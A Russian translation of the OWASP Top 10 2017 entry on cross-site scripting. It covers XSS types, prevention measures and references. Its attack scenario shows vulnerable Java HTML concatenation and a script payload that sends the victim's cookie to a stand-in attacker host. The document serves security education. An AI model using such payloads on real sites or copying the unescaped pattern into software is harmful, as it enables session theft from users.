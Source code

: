 # A7:2017 Межсайтовое выполнение сценариев (XSS)

| Источники угроз/Векторы атак | Недостатки безопасности           | Последствия               |
| -- | -- | -- |
| Зависит от прил. : Сложность эксплуатации 3 | Распространённость 3 : Сложность обнаружения 3 | Технические 2 : Для бизнеса ? |
| Автоматизированные инструменты могут обнаруживать и эксплуатировать все три вида межсайтового выполнения сценариев, более того, фреймворки для их эксплуатации можно найти в открытом доступе.  | Межсайтовое выполнение сценариев (XSS) является второй по распространенности уязвимостью из Топ-10 OWASP и обнаруживается в двух третях всех приложений. Автоматизированные инструменты могут обнаруживать XSS автоматически, особенно в случае проработанных технологий, таких как PHP, J2EE / JSP и ASP.NET. | Межсайтовое выполнение сценариев будет иметь последствия средней степени тяжести в случае отраженного XSS или XSS на основе объектной модели документа и серьезные последствия в случае межсайтового выполнения хранимых сценариев с удаленным выполнением кода в браузере пользователя, например в виде кражи учетных данных, перехвата сессий или установки вредоносного ПО. |

## Является ли приложение уязвимым?

Существует три типа XSS, обычно эксплуатируемых в браузерах:

* __Отраженное межсайтовое выполнение сценариев (Reflected XSS)__: Приложение или API включает непроверенные и непреобразованные данные в состав HTML. Успешная атака может привести к выполнению произвольного HTML- и JavaScript-кода в браузере жертвы. Обычно злоумышленнику необходимо убедить пользователя перейти по ссылке, ведущей на вредоносную страницу, например используя атаку типа "водопой" или рекламу.
* __Межсайтовое выполнение хранимых сценариев (Stored XSS)__: Приложение или API сохраняет необработанные входные данные, с которыми затем взаимодействуют пользователи или администраторы. Межсайтовое выполнение хранимых сценариев обычно считается очень опасной уязвимостью.
* __Межсайтовое выполнение сценариев на основе объектной модели документа (DOM XSS)__: JavaScript-фреймворки, одностраничные приложения и API, динамически добавляющие вредоносные данные на страницы, подвержены XSS на основе DOM. В идеале приложение не должно отправлять вредоносные данные небезопасным JavaScript API.

Обычно XSS используется для перехвата сессий, кражи учетных записей, обхода МФА, замены или подмены DOM-узлов (напр., троянские панели входа в систему), а также атак на браузеры, например для загрузки вредоносного ПО, регистрации нажатий и других атак на стороне клиента.

## Как предотвратить

Для предотвращения XSS необходимо отделять непроверенные данные от активного контента браузера. Этого можно достичь следующими способами:

* Использовать фреймворки с автоматическим преобразованием данных, как в последних версиях Ruby on Rails и React JS. Необходимо также проанализировать ограничения XSS-защиты каждого фреймворка и обеспечить соответствующую обработку этих исключений.
* Преобразовывать недоверенные данные из HTTP-запросов, основываясь на контексте, в HTML-коде (теле, атрибутах, JavaScript, CSS или URL) для предотвращения отраженного XSS и межсайтового выполнения хранимых сценариев. ["Памятка OWASP: Предотвращение XSS"](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) содержит подробные инструкции по преобразованию данных.
* Применять контекстное кодирование при изменении документа в браузере пользователя для предотвращения XSS на основе DOM. Если это невозможно, то применять контекстное кодирование к API браузера (см. ["Памятку OWASP: Предотвращение XSS на основе DOM"](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)).
* Использовать [политику защиты содержимого (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) для предотвращения XSS. Эта мера эффективна, если отсутствуют уязвимости, позволяющие внедрить код через локальные файлы (напр., используя подмену путей или уязвимые библиотеки из разрешенных сетей доставки контента).

## Примеры сценариев атак

**Сценарий №1**: Приложение использует непроверенные данные при создании HTML-сниппета без их подтверждения или преобразования:

```
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```
Злоумышленник меняет параметр 'CC' в браузере на:

```
'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
```

Идентификатор сессии жертвы отправляется на сайт злоумышленника, позволяя атакующему перехватить текущую сессию пользователя.

**Примечание**: злоумышленник может использовать XSS для обхода защиты от межсайтовой подмены запросов (CSRF), используемой в приложении.

## Ссылки

### OWASP

* [Проактивная защита OWASP: Кодирование данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Проактивная защита OWASP: Проверка данных](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [Стандарт подтверждения безопасности приложений OWASP: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [Руководство OWASP по тестированию: Отраженное межсайтовое выполнение сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [Руководство OWASP по тестированию: Межсайтовое выполнение хранимых сценариев](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [Руководство OWASP по тестированию: XSS на основе объектной модели документа](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [Памятка OWASP: Предотвращение XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [Памятка OWASP: Предотвращение XSS на основе DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [Памятка OWASP: Обход фильтра XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [Проект кодировщика Java от OWASP](https://owasp.org/www-project-java-encoder/)

### Сторонние

* [CWE-79: Некорректная нейтрализация входных данных от пользователей](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Внедрение в пользовательские шаблоны](https://portswigger.net/kb/issues/00200308_client-side-template-injection)